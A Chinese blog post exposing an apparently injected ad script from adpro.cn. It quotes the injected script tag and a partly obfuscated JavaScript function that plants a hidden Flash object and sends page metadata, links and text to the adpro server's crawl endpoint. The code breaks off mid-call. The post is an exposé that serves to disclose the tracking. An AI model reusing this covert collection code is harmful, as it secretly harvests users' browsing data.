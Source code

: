 ```yaml
---
layout: post
title: Adpro.cn is Watching You
description:
category: blog
math: true
---
```


## 怎么发现的

访问一些网站的时候，有时出现 javascript 脚本错误，发现页面的最后有一行：

{% highlight javascript %}
<script>_guanggao_pub = "<长度20位的十六进制编码>";_guanggao_slot = "<长度20位的十六进制编码>";
</script><script src="http://x.adpro.cn/gngo.js"></script>
{% endhighlight %}

adpro 名字就说明了是广告相关的东西，最开始我以为那个网站的广告，后来发现几乎所有的网站都有。想必是被强行插入了。于是点击 adpro.cn 发现首页赫然写到 1.2 亿的覆盖面。你知道 1.2 亿的覆盖面怎么来的吗？


**偷来的。**


## 隐私偷取函数

整个[文件][5]的关键在这个函数：

{% highlight javascript 86 %}
function na(d) {
  var c = "http://" + G + "/crawl/er.swf?initrc=_proCrawlerInit&" + Math.random(),
      a = {};
  a[t] = '<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" \
         codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab" ' 
         + x + "=1 " + y + '=1 id=_proCrawlerCom name=_proCrawlerCom><param name=movie value="' 
         + c + '"><param name=allowScriptAccess value=always><param name=quality value=low>\
	 <embed src="' + c + '" allowscriptaccess=always quality=low ' + x + "=1 " + y 
         + '=1 name=_proCrawlerCom id=_proCrawlerCom type="application/x-shockwave-flash">\
         </embed></object>';
  a[L] = A + ";" + u + ":1px;" + z + ":1px;" + x + ":1px;" + y + ":1px;overflow:hidden;";
  c = w("div", a);
  p[s](c, v);
  if ("html" !== d.type) {
      d = "";
      var c = k[D][oa]("meta"),
          e;
      for (e in c) c[e].name && -1 < "description,keywords".indexOf(c[e].name[H]()) 
        && (d += c[e].getAttribute("content")[I]());
      c = [];
      for (e in k.links) k.links[e].href && c[J]([k.links[e].href, k.links[e].innerText]);
      var b = {};
      b[pa] = $;
      b[r] = R;
      b[qa] = c;
      b[aa] = ha;
      b[ba] = k[ba] ? k[ba][H]().replace(/\s{2,}/g, " ").replace(/^\s+/, "").replace(/\s+$/, "")
      	      	    : "";
      b.text = (d + " " + p[T])[H]().replace(/<\s*\/?\w+[^>]*>/g,
          " ").replace(/[^0-9a-zA-Z\-\.\u4e00-\u9fa5]+/g, " ")
  }
  window._proCrawlerInit = function () {
      var a = window._proCrawlerCom;
      a && (a[K] && (a.splice || a.item) && (a = a[0].i8crawlPage ? a[0] : a[1]), a.i8crawlPage 
          && a.i8crawlPage(O + "//" + G + "/crawl/er", b, 

[1]: http://helpx.adobe.com/flash-player/kb/changes-allowscriptaccess-default-flash-player.html
[2]: http://code.tutsplus.com/tutorials/quick-tip-how-to-communicate-between-flash-and-javascript--active-3370
[3]: http://www.swftools.org/download.html
[4]: https://adblockplus.org/
[5]: http://x.adpro.cn/gngo.js
[6]: http://heartbleed.com/